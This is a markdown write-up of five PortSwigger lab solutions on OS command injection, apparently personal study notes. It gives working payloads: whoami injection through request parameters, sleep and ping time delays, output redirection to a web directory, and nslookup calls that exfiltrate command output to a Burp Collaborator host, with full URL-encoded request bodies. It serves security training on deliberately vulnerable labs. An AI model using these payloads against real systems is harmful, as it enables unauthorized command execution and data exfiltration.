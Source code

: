 ## OS command injection vulnerabilities



[TOC]



### [OS command injection, simple case](https://portswigger.net/web-security/os-command-injection/lab-simple)

Goal : execute the `whoami` command to determine the name of the current user.

- intercept and modify a request that checks the stock level.
- append `|whoami` or `;whoami` to the `storeId` parameter 
- you can use this also`productId=1%26+whoami+%23&storeId=1` it's encoded with URL encoding (`productId=1& whoami #&storeId=1`)
- check the name in the response



<img src=".\command_injection_img\1_1.png" style="zoom:80%;" />





------







### [Blind OS command injection with time delays](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

Goal : exploit the blind OS command injection vulnerability to cause a 10 second delay.

- go to `submit feedback`

- I tried a lot of payloads in different parameters and finally these payloads solved the lab
  ```
  karim&`ping -c 10 127.0.0.1`#&
  OR
  karim&`sleep 10`#&
  ```

- put any one in the name or email parameter and send the request







------



### [Blind OS command injection with output redirection](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

Goal : execute the `whoami` command and retrieve the output.

- go to `submit feedback`

- write the payload from previous lab `%26+sleep+10+%23+` (`& sleep 10 # `) in the email parameter

- notice that it takes 10 seconds to respond , so this parameter is vulnerable

- append the payload to email parameter with URL encoding
  ```
  & whoami > /var/www/images/whoami.txt #
  ```

- open any image in new tab , replace its name with whoami.txt



![](.\command_injection_img\2_1.png)





------





### [Blind OS command injection with out-of-band interaction](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

Goal :  exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

- go to `submit feedback`

- submit any values

- from `Burp collaborator client `  click `copy to clipboard` 

- send this request `POST /feedback/submit ` to burp repeater

- add the payload to the email parameter (we know that is the vulnerable parameter from the previous labs)
  ```bash
  &nslookup <your_own>.burpcollaborator.net #&
  ```

- but encode it with URL encoding

- the request body will look like this
  ```bash
  csrf=UfTw8aBwMGPhF6MGrJy2VBawdAB06GQ5&name=karim&email=123%40gmail.com%26nslookup%20y21kg9ifjgutl206yib4mhvtrkxdl2.burpcollaborator.net%20%23&subject=123&message=123
  ```

  <img src=".\command_injection_img\3_1.png" style="zoom:80%;" />

- send the request

- if you go to `Burp collaborator client` and click pull now , you will see the DNS request to our domain

<img src=".\command_injection_img\3_2.png" style="zoom:80%;" />



------





### [Blind OS command injection with out-of-band data exfiltration](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band-data-exfiltration)

Goal : execute the `whoami` command and exfiltrate the output via a DNS query to Burp Collaborator. 

- go to `submit feedback`

- submit any values

- from `Burp collaborator client `  click `copy to clipboard` 

- send this request `POST /feedback/submit ` to burp repeater

- add the payload to the email parameter (we know that is the vulnerable parameter from the previous labs)

  ```bash
  & nslookup `whoami`.79etnipoqp12sb7f5ridtq22yt4nsc.burpcollaborator.net #&
  ```

- but encode it with URL encoding

- the request body will look like this
  ```bash
  csrf=5mJNRXmKKLVevRpFlC9NqvcKUm5LwMJH&name=karim&email=123%40g.com%26%20nslookup%20%60whoami%60.79etnipoqp12sb7f5ridtq22yt4nsc.burpcollaborator.net%20%23&subject=123&message=123
  ```

- send the request

- if you go to `Burp collaborator client` and click pull now , you will see the DNS request to our domain



<img src=".\command_injection_img\4_1.png" style="zoom:80%;" />







------





